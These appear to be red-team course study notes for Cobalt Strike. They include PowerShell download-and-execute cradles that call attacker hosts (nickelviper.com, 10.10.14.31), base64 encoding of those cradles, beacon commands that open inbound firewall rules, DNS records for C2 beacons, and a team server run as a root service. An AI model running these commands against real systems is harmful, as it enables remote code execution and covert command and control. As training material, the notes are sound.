 # crto-notes

## Miscellaneous
```powershell
# Run a python3 webserver
$ python3 -m http.server

# Check outbound access to TeamServer
$ iwr -Uri http://nickelviper.com/a

# Change incoming firewall rules
beacon> powerpick New-NetFirewallRule -DisplayName "Test Rule" -Profile Domain -Direction Inbound -Action Allow -Protocol TCP -LocalPort 8080
beacon> powerpick Remove-NetFirewallRule -DisplayName "Test Rule"

## Encode the powershell payload for handling extra quotes

# Powershell
PS C:\> $str = 'IEX ((new-object net.webclient).downloadstring("http://nickelviper.com/a"))'
PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))

#Linux
$ echo -n "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.31/shell.ps1')" | iconv -t UTF-16LE | base64 -w 0

# Final Command
powershell -nop -enc <BASE64_ENCODED_PAYLOAD>
```
## Command & Control
Setting up DNS records for DNS based beacon payloads
```powershell
# Set below DNS Type A & NS records, where IP points to TeamServer

@    | A  | 10.10.5.50
ns1  | A  | 10.10.5.50
pics | NS | ns1.nickelviper.com

# Verify the DNS configuration from TeamServer, it should return 0.0.0.0
$ dig @ns1.nickelviper.com test.pics.nickelviper.com +short

# Use pics.nickelviper.com as DNS Host and Stager in Listener Configuration
```
Start the team server and run as service
```powershell
> sudo ./teamserver 10.10.5.50 Passw0rd! c2-profiles/normal/webbug.profile
```
```powershell
$ sudo vim /etc/systemd/system/teamserver.service

[Unit]
Description=Cobalt Strike Team Server
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=always
RestartSec=1
User=root
WorkingDirectory=/home/attacker/cobaltstrike
ExecStart=/home/attacker/cobaltstrike/teamserver 10.10.5.50 Passw0rd! c2-profiles/normal/webbug.profile
```